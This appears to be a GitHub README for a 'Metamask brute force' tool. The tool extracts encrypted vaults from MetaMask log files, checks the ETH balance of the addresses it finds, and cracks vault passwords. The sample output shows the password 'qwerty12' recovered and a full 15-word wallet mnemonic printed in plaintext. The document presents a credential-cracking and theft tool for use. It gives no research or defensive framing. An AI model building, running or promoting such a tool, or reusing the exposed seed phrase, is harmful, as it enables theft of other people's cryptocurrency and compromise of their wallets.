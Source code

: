 # Metamask brute force
This program extracts vault data from a MetaMask log files , performs brute-force on it and extracts the mnemonic.

Starting processing in directory: C:\metamaskbrut

Processing file: C:\metamaskbrut\000233.log
Vault extracted and saved to file: C:\metamaskbrut\000233.log.hash
Ethereum address found: 0x3b74B91360d7c1B59DC157dCfe01aBae72557df2
Balance for address 0x3b74B91360d7c1B59DC157dCfe01aBae72557df2: 0.03913388434350565 ETH


Processing file: C:\metamaskbrut\00023664.log
Vault extracted and saved to file: C:\metamaskbrut\00023664.log.hash
Ethereum address found: 0xbd8ba29bbfeccb987c52451c222b387f1e2b03a8
Balance for address 0xbd8ba29bbfeccb987c52451c222b387f1e2b03a8: 0.00000000000000000 ETH


Processing complete.
Found 2 .hash file(s).

Processing file: .\000233.log.hash
Valid vaults loaded: 1

File processed. Passwords tried: 9  |  Vaults decrypted: 0  |  Speed: 0.00 p/s  |  Time elapsed: 0 sec

Processing file: .\00023664.log.hash
Valid vaults loaded: 1

Decrypted Vault: '{"data":"VtfsMLY/5cCEBtd+5LxrKUFLVJAXnTN1t4O+3W3RgU6Xce6Vh0C2Jst...'
Vault Password: 'qwerty12'
mnemonic: youth draw mother patient machine maze young mechanic silver pulse discover phone swear have nest

File processed. Passwords tried: 8  |  Vaults decrypted: 1  |  Speed: 1.14 p/s  |  Time elapsed: 7 sec

Finished.
